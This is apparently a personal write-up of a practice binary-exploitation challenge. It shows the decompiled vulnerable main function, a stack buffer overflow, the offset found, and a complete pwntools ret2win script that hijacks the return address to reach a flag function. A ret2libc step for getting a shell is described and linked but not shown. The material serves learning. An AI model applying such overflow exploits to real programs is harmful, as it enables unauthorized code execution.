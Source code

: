 <h3> Binary Exploitation </h3>

#### This is a binary a friend of mine gave me and i decided to do it and it turns out pretty easy

#### Basic File Checks
![image](https://user-images.githubusercontent.com/127159644/227796080-4c7a83aa-bfbd-4e3f-8bc4-e9822a3f1219.png)

We can see its a x64 binary and the only protection enabled is `NX enabled`

I'll run the binary to know what it does

```
➜  ~ ./chall 
I ask you what your heart desire ? 
lol
I hear the secrets that you keep ! 
yea
➜  ~ 
```

Nothing really much happening here

So using ghidra i'll decompile the binary
![image](https://user-images.githubusercontent.com/127159644/227796173-66383c20-474c-4287-82c4-f03d817e7f78.png)

There's also a flag function in it but the flag is redacted
![image](https://user-images.githubusercontent.com/127159644/227796226-19541dc4-1ea3-4bc1-ae3d-c5bb3126b0a1.png)

So for this the task was 2 the first one was to get the flag while the second was to get shell

Getting the flag is basically just going to have to do with ret2win

Here's the main function

```
undefined8 main(void)

{
  undefined buf [24];
  void *local_10;
  
  disable_buffering();
  local_10 = mmap((void *)0x1337000,0x1000,7,0x22,0,0);
  puts("I ask you what your heart desire ? ");
  read(0,local_10,128);
  puts("I hear the secrets that you keep ! ");
  read(0,buf,128);
  return 0;
}
```

Looking at it since it doesn't do much we can spot the vulnerability already

```
read(0,buf,128);
```

It's reading 128 bytes into a buffer that can only hold up 24 bytes so this is a buffer overflow

Lets now perform the exploitation

#### Ret2Win Exploitation

First we need the offset needed to hijack the rip register
![image](https://user-images.githubusercontent.com/127159644/227796422-e7968080-3ae3-4bcc-943b-1effad48a96b.png)
![image](https://user-images.githubusercontent.com/127159644/227796452-5e6fb05a-e02f-449a-921a-bcccf7c010c9.png)

So the offset is `40` with this performing the ret2win should be straight forward

We just need the adderss of the flag function which can be gotten from gdb or ghidra
![image](https://user-images.githubusercontent.com/127159644/227796531-748320a3-0b21-45e1-a582-268c35e16423.png)

Now here's the solve script for performing the ret2win

```
from pwn import *
import warnings

io = process('./chall')
warnings.filterwarnings('ignore')

offset = 40
padding = b'B'*offset
addr = p64(0x00000000004011fb)

payload = padding + addr

io.send('lol')
io.sendline(payload)
#io.interactive()
io.recvline()
io.recvline()
flag = io.recvline()
success(flag)
```

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796637-a2954788-2a4d-4606-832d-1930ec1736fb.png)

Now for the second part of the challenge which is getting shell here's what i did

I just performed a ret2libc

Why i did that was because during the program execution the global offset table of puts is already populated
![image](https://user-images.githubusercontent.com/127159644/227796788-4ec19eae-2ec5-4270-8a2c-867a12423f64.png)
![image](https://user-images.githubusercontent.com/127159644/227796802-3606b946-5b94-4b06-b63e-8e2cee7ccc00.png)
![image](https://user-images.githubusercontent.com/127159644/227796813-d73bb565-1b40-4140-b827-49a15fa2b491.png)

Here's my solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/practice/accessdenied/solve.py)

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796869-69662796-a767-4418-9d59-9efd1121fcde.png)

<br>
[Back To Home](../index.md)
